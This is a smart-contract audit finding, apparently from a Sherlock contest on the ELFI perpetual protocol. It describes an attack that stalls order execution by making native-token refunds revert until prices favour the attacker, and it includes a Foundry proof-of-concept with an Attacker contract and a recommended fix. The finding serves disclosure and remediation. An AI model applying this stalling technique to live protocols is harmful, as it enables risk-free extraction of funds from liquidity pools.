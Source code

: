 Energetic Lemonade Woodpecker

high

# Attacker can game the system by delaying their order execution until price favors them

## Summary
Attacker can delay execution of their order until price favours them.

## Vulnerability Detail
A malicious actor can stall their transactions in the mempool until it favours them before allowing it to execute, with the following steps:
- Create a request with an large `executionFee`, such that the pool will have to [reimburse](https://github.com/sherlock-audit/2024-05-elfi-protocol/blob/8a1a01804a7de7f73a04d794bf6b8104528681ad/elfi-perp-contracts/contracts/process/GasProcess.sol#L36) you with `refundFee` (which is in native token) at the end of the execution call.
- Create this transaction from an address that can't receive native token to prevent the transaction from executing successfully
- When the time is right, toggle your address to be able to receive native token for the Tx to execute. This is achievable with metamorphic and upgradable contracts.


## Impact
- Attacker can execute trade orders with stale prices, effectively making risk free profit.


## Code Snippet
Create a request with an large `executionFee`, such that the pool will have to reimburse you with `refundFee`.
https://github.com/sherlock-audit/2024-05-elfi-protocol/blob/8a1a01804a7de7f73a04d794bf6b8104528681ad/elfi-perp-contracts/contracts/process/GasProcess.sol#L36
```js
function processExecutionFee(PayExecutionFeeParams memory cache) external {
        uint256 usedGas = cache.startGas - gasleft();
        uint256 executionFee = usedGas * tx.gasprice;
        uint256 refundFee;
        uint256 lossFee;
        if (executionFee > cache.userExecutionFee) {
            executionFee = cache.userExecutionFee;
            lossFee = executionFee - cache.userExecutionFee;
        } else {
            refundFee = cache.userExecutionFee - executionFee;
        }
 // ...
        VaultProcess.withdrawEther(cache.keeper, executionFee);
        if (refundFee > 0) {
            VaultProcess.withdrawEther(cache.account, refundFee);
        }
// ...
    }
```

`refundFee` is sent in native token.
https://github.com/sherlock-audit/2024-05-elfi-protocol/blob/8a1a01804a7de7f73a04d794bf6b8104528681ad/elfi-perp-contracts/contracts/process/VaultProcess.sol#L50-L54
```js
    function withdrawEther(address receiver, uint256 amount) internal {
        address wrapperToken = AppConfig.getChainConfig().wrapperToken;
        IWETH(wrapperToken).withdraw(amount);
        safeTransferETH(receiver, amount);
    }

    function safeTransferETH(address to, uint256 value) public {
        (bool success, ) = to.call{ value: value }(new bytes(0));
        require(success, "STE");
    }
```

## Proof of Code

<details>
**How to run the PoC**
- Clone this repo. This is a Foundry version of the original repo.
```bash
git clone https://github.com/Renzo1/Elfi-Foundry2.git
```
- Open `test/README` for guide on how to run the all the PoCs and Test in the Repo
- For this particular PoC, run:
```bash
	forge test --match-test testStallOrder
```

**The PoC*
```js
	contract AttackerCanStallOrder is Test, TargetFunctions, FoundryAsserts {
		Attacker attacker;

		function setUp() public {
			setup();
			attacker = new Attacker(diamondAddress);
		}


		function __mintStakeTokenRequest() internal {
			// Create Mint Params
			uint256 _answer = 50_000;
			BeforeAfterParamHelper memory beAfParams;
			IStake.MintStakeTokenParams memory params;
			beAfParams.oracles = getOracleParam(_answer);

			/// createOrder params setup
			params.stakeToken = stakedTokens[0];
			params.requestToken = address(weth);
			params.requestTokenAmount = 1000e18;
			params.walletRequestTokenAmount = 1000e18;
			params.minStakeAmount = 0;
			params.executionFee = ChainConfig.getMintGasFeeLimit();
			params.isCollateral = false;
			params.isNativeToken = false;

			uint256 requestId = diamondStakeFacet.createMintStakeTokenRequest{value: params.executionFee}(params);
			vm.prank(keeper);
			diamondStakeFacet.executeMintStakeToken(requestId, beAfParams.oracles);
			console2.log("requestId", requestId);
		}


		// forge test --match-test testStallOrder
		function testStallOrder() public {
			uint256 _answer = 50_000;
			BeforeAfterParamHelper memory beAfParams;
			IOrder.PlaceOrderParams memory params;
			beAfParams.oracles = getOracleParam(_answer);


			/// createOrder params setup
			params.symbol = MarketConfig.getWethSymbol();
			params.isCrossMargin = false;
			params.isNativeToken = false;
			params.orderSide = Order.Side.LONG;
			params.posSide = Order.PositionSide.INCREASE;
			params.orderType = Order.Type.MARKET;
			params.stopType = Order.StopType.NONE;
			params.marginToken = address(weth);
			params.qty = 0;
			params.orderMargin = 10e18;
			params.leverage = MarketConfig.getMaxLeverage() / 2;
			params.triggerPrice = 0; // triggerPrice 
			params.acceptablePrice = uint256(beAfParams.oracles[0].maxPrice);
			params.executionFee = ChainConfig.getPlaceIncreaseOrderGasFeeLimit() * 2; // Using excessive gas fee so that a portion will be refunded
			params.placeTime = block.timestamp;

			// Deal attacker some balance
			vm.startPrank(keeper); // keeper is also the admin in this example
			hevm.deal(address(attacker), TradeConfig.getEthInitialAllowance() * 1000); // Sets the eth balance of user to amt
			weth.mint(address(attacker), (TradeConfig.getWethInitialAllowance() * 1000) * (10 ** weth.decimals())); // Sets the weth balance of user to amt
			vm.stopPrank();

			vm.prank(USERS[0]);
			uint256 orderId = attacker.createOrder{value: params.executionFee}(params);
			console2.log(orderId);

			__mintStakeTokenRequest();
			vm.expectRevert();
			diamondOrderFacet.executeOrder(orderId, beAfParams.oracles);
		}
	}

	contract Attacker {
		IOrder diamondOrderFacet;

		constructor(address _diamond) {
			diamondOrderFacet =IOrder(_diamond);
		}

		function createOrder(IOrder.PlaceOrderParams memory params) public payable returns(uint256 orderId) {
			// Set allowance for diamond address
			IERC20(params.marginToken).approve(address(diamondOrderFacet), type(uint256).max);

			return diamondOrderFacet.createOrderRequest{value: msg.value}(params);
		}

		// No fallback or receive function
		// receive() external payable {} // toggle for test to fail with "Reason: call did not revert as expected"
	}

```
</details>


## Tool used
Manual Review


## Recommendation
Send `refundfee` fee in ERC20 token.